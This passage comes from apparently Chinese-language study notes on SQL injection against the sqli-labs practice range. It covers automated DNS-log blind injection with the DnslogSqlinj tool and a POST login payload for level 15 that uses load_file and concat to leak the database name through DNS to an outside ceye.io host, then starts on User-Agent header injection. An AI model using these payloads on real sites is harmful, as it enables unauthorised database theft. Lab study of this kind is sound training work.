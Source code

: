 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806002127372.png" alt="image-20220806002127372" style="zoom: 33%;" />

执行命令后

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806002236891.png" alt="image-20220806002236891" style="zoom:33%;" />

### 5.dnslog自动化注入

1.在github上下载DnslogSqlinj到电脑上，然后解压。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806124237211.png" alt="image-20220806124237211" style="zoom:50%;" />

2.配置一下config.py这个文件。

把如下变量配置为自己设置的dnslog信息。配置完之后进行dnslog自动化注入了。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806125442446.png" alt="image-20220806125442446" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220806180049527.png" alt="image-20220806180049527" style="zoom:67%;" />

3.执行代码，实现dnslog自动化注入

因为DnslogSqlinj项目的代码使用Python2写的，所以只能在Python2的环境下执行。

在命令行中，先切换到DnslogSqlinj项目目录下，然后执行以下命令

```powershell
#解析出所有的数据库名
python dnslogSql.py -u "http:192.168.1.18/sql/less-9/index.php?id=1' and ({}) -- " --dbs
```

### 6.POST提交dnslog盲注

#### 靶场练习（less-15）

```
uname=admin' and  (select load_file(concat('//',(select database()),'.7wusc8.ceye.io/123'))) -- &passwd=dsygiudsh&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220808124255595.png" alt="image-20220808124255595" style="zoom:50%;" />

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220808124317260.png" alt="image-20220808124317260" style="zoom:50%;" />

## 3.4 POST报头注入

当页面看不到明显变化，万能秘钥无法绕过验证，也找不到其他注入点时，可以尝试报头注入。

### 3.4.1 报头注入之UA注入

#### 代码审计（less-18）

使用phpstorm打开源代码。

```php
$uname = check_input($_POST['uname']);
$passwd = check_input($_POST['passwd']);
```
